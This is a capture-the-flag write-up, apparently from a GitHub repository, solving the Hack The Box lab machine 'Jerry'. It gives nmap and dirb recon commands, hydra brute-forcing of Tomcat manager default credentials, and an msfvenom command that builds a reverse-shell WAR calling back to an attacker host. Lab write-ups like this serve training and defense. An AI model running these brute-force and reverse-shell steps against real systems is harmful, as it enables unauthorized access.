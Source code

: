 # Jerry Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA jerry 10.10.10.95``

### or

``nmap -p- -sV -oA fulljerry 10.10.10.95``

### Directory Bruteforce 

``dirb http://10.10.10.95:8080/ -w /usr/share/wordlists/dirb/common.txt``

![image](https://user-images.githubusercontent.com/123066149/217837076-177eb05d-fd9b-44bb-8619-dd0c19e39911.png)

# ${{\color{purple}Initial Foothold}}\ $

### Find default admin panel with Basic http authentication **:white_check_mark:**

http://10.10.10.95:8080/manager/status
http://10.10.10.95:8080/manager/html

![image](https://user-images.githubusercontent.com/123066149/217837876-b8eeaf5c-e10c-48c0-9469-8574fbeba3fc.png)
![image](https://user-images.githubusercontent.com/123066149/217838004-2ed7f501-8a57-4d9f-9ada-a8640cea0ca2.png)

# ${{\color{purple}Exploitation}}\ $

### I used ``hydra`` for bruteforce http because it didn't work as I wanted with burp intruder :

### I used the wordlist tomcat-betterdefaultpasslist.txt from seclits :

``cd /usr/share/wordlists/seclists && find . | grep tomcat``

![image](https://user-images.githubusercontent.com/123066149/217838601-ff6a39d7-8ad5-4163-97a4-f60de4d4cd20.png)

``hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html``

``hydra -C tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html``

### Finally the last command is very good because it allows me to see the hydra requests in burp via the proxy and also to use hydra again 

``HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html``


![image](https://user-images.githubusercontent.com/123066149/217839534-73005491-ecc0-48be-8d21-73f1a94d3504.png)

![image](https://user-images.githubusercontent.com/123066149/217839927-2d0231f4-2550-44fe-9331-72b68ee49741.png)


# ${{\color{purple}Privilege Escalation}}\ $

Tomcat service runs with the highest privileges

![image](https://user-images.githubusercontent.com/123066149/217841342-de04b991-cc8e-4071-a5a2-1ff0c75eba29.png)


![image](https://user-images.githubusercontent.com/123066149/217840387-43774f17-b81b-4ab1-9013-681a64162903.png)

``msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.5 LPORT=445 -f war -o shell.war``

For this reverse shell in .war I used this site 

https://www.revshells.com

![image](https://user-images.githubusercontent.com/123066149/217842180-aadccf45-e960-42e2-881c-22bf24fe6c6e.png)

# ${{\color{purple}Points of Improvement}}\ $

* Better look at the error messages 

* Use seclists for http bruteforces

* Use multiple tools for http bruteforces
